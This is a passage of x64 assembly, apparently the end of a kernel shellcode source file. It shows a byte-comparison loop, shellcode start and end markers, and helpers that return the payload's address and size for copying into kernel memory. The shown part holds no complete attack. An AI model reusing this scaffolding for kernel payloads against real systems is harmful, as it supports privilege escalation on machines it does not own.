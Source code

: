 ```Assembly
	cmp al, [rdx]
	je equal
	inc rdx
	inc rcx
	jmp iter

equal: 
	xor rax, rax
	jmp finish
not_equal:
	xor rax, rax
	inc rax
	jmp finish

finish:
	leave
	ret
kernel_shellcode_memcpy ENDP

kernel_shellcode_end PROC
kernel_shellcode_end ENDP

get_kernel_shellcode_address PROC
	mov rax, kernel_shellcode_start
	ret
get_kernel_shellcode_address ENDP

get_kernel_shellcode_size PROC
	call get_kernel_shellcode_address
	mov rcx, rax
	mov rax, kernel_shellcode_end
	sub rax, rcx
	ret
get_kernel_shellcode_size ENDP

END
```
